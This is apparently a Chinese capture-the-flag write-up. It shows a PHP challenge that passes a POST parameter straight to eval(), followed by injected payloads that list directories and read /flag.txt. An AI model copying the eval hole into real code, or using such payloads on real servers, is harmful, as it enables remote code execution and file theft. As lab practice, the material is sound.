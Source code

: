 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```



```
c=var_dump(scandir(getcwd()));
```

![image-20250404161728015](./assets/image-20250404161728015.png)

```
c=var_dump(scandir("/"));
```

![image-20250404161754267](./assets/image-20250404161754267.png)

依旧是根目录中存在flag.txt





读取

```
c=highlight_file("/flag.txt");
```

![image-20250404161833672](./assets/image-20250404161833672.png)